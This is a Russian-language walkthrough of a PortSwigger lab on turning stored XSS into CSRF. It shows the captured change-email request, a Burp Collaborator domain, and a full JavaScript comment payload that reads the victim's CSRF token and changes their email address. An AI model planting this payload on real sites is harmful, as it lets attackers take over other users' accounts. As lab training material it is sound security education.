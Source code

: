 залогинемся под `wiener:peter` для начала
и увидим, что его актуальная почта - `wiener@normal-user.net`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/25.%20Exploiting%20XSS%20to%20perform%20CSRF/pics%20for%20walkthrough/1.png)
изменим почту на `test@test.com` и посмотрим в `Proxy` -> `HTTP history`  запросы
Нам неоходим запрос 
```
POST /my-account/change-email
```
где указаны новый почтовый яшик и csrf токен
```
email=test%40test.com&csrf=10zdNqaH3vCOXWZGpwoQhLCkNUd24cI8
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/25.%20Exploiting%20XSS%20to%20perform%20CSRF/pics%20for%20walkthrough/2.png)
далее нам необходимо сформировать DGA Домент в `Collaborator` с помощью кнопки `Copy to clipboard`
```
0qrdto0uxy99vi867povssa21t7mvcj1.oastify.com
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/25.%20Exploiting%20XSS%20to%20perform%20CSRF/pics%20for%20walkthrough/3.png)
Далее перейдем в любое из обсуждений и в поле комментарий вставим запрос
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test2@test.com')
};
</script>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/25.%20Exploiting%20XSS%20to%20perform%20CSRF/pics%20for%20walkthrough/4.png)

Тем самым, данный скрипт позволит всем, кто откроет данный комментарий, изменить их почту на `test2@test.com`
и получим сообщение об успешно выполненной лабораторной работе


а в самой странице данный скрипт выглядит следующим образом
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/25.%20Exploiting%20XSS%20to%20perform%20CSRF/pics%20for%20walkthrough/5.png)
